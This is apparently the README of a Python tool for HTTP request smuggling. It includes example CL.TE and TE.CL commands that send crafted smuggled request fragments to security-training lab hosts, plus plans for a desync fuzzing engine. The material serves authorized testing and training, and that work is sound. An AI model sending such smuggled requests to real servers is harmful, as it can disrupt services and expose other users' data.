 # pyhttpsmuggler
Scripts related to web/request smuggling & general web hacking.
*This project is free to use and modify. The three things I ask of those interested in using/modifying/distributing this project is:
1. Users have the explicit consent from target host servers' maintainers to test for vulnerabilities-- as a successful exploit may disrupt web-services and/or leak sensitive user-data.
2. Any derivative project using any component from this project upholds the open-source philosophy with others in the research & development community.
3. Lastly, I ask (well, it's more of a statement really) that I assume no liability or responsibility for any & all potential consequences of others'actions when using this script on a live server instance.*
## General Information
- The keys for the argument list are colored yellow. The values are purple.
- The request body field is colored such that the purple portion denotes the substring of the request covered by the content-length field. The cyan portion denotes the part of the request to be smuggled. 
## Examples
*Note: passing arguments denoted by pairs of quotations (",') is necessary for request fields which may contain spaces or special charachters*
### CL.TE Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "35" --body-data ""  --smuggled-body-fields "GET /404 HTTP/1.1,X-Ignore: X" --debug "1"```
### TE.CL Vulnerability
```python3 pysmuggle.py --host "your-access-token.web-security-academy.net" --method "POST" --body-length "4" --body-data "5c"\n--smuggled-body-fields "GPOST / HTTP/1.1,Content-Type: application/x-www-form-urlencoded,Content-Length: 15,,x=1,0," --debug "1"```
## Changelog
### 9/4/2021
- Implemented a WebRequest class to generate arbitrary web requests with malformed fields and/or fuzz around for TE.CL and CL.TE vulnerabilities in web server configurations.
### 9/5/2021
- Implemented a CLI using argparse and the WebRequest class. This introduces robustness and more opportunities for automation since worker threads can easily invoke specially-crafted requests by passing arguments over the CLI under the control of a parent thread or list of exploits to try.
- Updated README with example usage and development logs
# Todo:
## pyhttpsuggler-cli
1. [X] Improve  CLI for sending arbitrary requests from the command line rather than using driver scripts like smuggle.py. Maybe I will implement this in C++ or scapy depending on the advantages each choice offers...
2. [ ] Add fuzzing engine script to automate fuzzing websites for various HTTP request desync attacks
3. [ ] Create a text file with various desync attacks to test on an target webserver and a parser to turn the entries in the file into different requests.
4. [ ] Cleanup the chunk of if/elif/else login in pysmuggler.py:34-94
